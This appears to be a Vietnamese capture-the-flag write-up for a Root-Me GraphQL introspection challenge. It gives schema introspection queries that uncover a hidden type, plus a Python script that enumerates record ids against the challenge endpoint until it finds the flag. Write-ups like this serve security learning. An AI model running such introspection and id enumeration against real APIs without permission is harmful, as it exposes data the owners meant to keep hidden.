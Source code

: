 # GraphQL - Introspection

## Solution

Attack surface của challenge là: GraphQL

Quy trình exploit:

- Xác định điểm inject bằng cách sử dụng: `{__schema{types{name}}}`. Đây là truy vấn chung về lược đồ GraphQL, sẽ tìm tên của tất cả các loại đang được sử dụng, bằng cách kiểm tra kết quả, có thể thấy, nhận được một loạt các loại, bao gồm cả "IAmNotHere" (có vẻ hứa hẹn)

- Tìm hiểu thêm về loại "IAmNotHere" bằng cách sử dụng truy vấn sau: `{__type (name: \"IAmNotHere\") {name fields{name type{name kind ofType{name kind}}}}}`. Nó có 2 trường: `very_long_id` & `very_long_value`.

- Truy vấn cuối cùng được sử dụng để tìm kiếm flag: `{ IAmNotHere(very_long_id:[i]) { very_long_id, very_long_value } }`

- Suy ra id đúng khớp với flag:

```
import requests,sys,re,json
 
proxies = {'http': '127.0.0.1:8080'}
url = "http://challenge01.root-me.org:59077/rocketql"
query = """
{
        IAmNotHere(very_long_id:[i]) {
                very_long_id, very_long_value }
}
"""
 
for i in range(1,40):
        r = requests.post(url, json={"query": query.replace("[i]", str(i))}     ,proxies = proxies)
        res = r.text
        if "flag" in res:
            print("(+) flag found!\n%s" % res)
```